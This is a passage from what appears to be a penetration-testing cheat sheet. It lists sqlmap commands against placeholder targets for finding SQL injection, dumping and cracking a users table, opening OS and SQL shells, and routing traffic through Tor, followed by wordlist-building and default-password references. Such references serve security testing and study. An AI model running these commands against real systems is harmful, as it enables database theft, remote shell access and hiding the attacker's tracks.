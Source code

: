 > **sqlmap -o -u http://$ip/index.php --forms --dbs  
> sqlmap -o -u "http://$ip/form/" --forms  
> sqlmap check form for injection  
> sqlmap -o -u "http://$ip/vuln-form" --forms  
> -D database-name -T users --dump  
> sqlmap dump and crack hashes for table users on database-name.
>
> Enumerate databases  
> sqlmap --dbms=mysql -u "$URL" --dbs  
> Enumerate tables from a specific database  
> sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables  
> Dump table data from a specific database and table  
> sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump  
> Specify parameter to exploit  
> sqlmap --dbms=mysql -u
> "http://www.example.com/param1=value1&param2=value2" --dbs -p param2  
> Specify parameter to exploit in 'nice' URIs  
> sqlmap --dbms=mysql -u
> "http://www.example.com/param1/value1\*/param2/value2" --dbs \#
> exploits param1  
> Get OS shell  
> sqlmap --dbms=mysql -u "$URL" --os-shell  
> Get SQL shell  
> sqlmap --dbms=mysql -u "$URL" --sql-shell  
> SQL query  
> sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT \*
> FROM $TABLE;"  
> Use Tor Socks5 proxy  
> sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL"
> --dbs

-   Password Attacks
    --------------------------------------------------------------------------------------------------------------

    -   AES Decryption  
        http://aesencryption.net/

    -   Convert multiple webpages into a word list  
        for x in 'index' 'about' 'post' 'contact' ; do curl
        http://$ip/$x.html | html2markdown | tr -s ' ' '\\n' &gt;&gt;
        webapp.txt ; done

    -   Or convert html to word list dict  
        html2dic index.html.out | sort -u &gt; index-html.dict

    -   Default Usernames and Passwords

        -   CIRT  
            [*http://www.cirt.net/passwords*](http://www.cirt.net/passwords)

        -   Government Security - Default Logins and Passwords for
            Networked Devices

        -   [*http://www.governmentsecurity.org/articles/DefaultLoginsandPasswordsforNetworkedDevices.php*](http://www.governmentsecurity.org/articles/DefaultLoginsandPasswordsforNetworkedDevices.php)
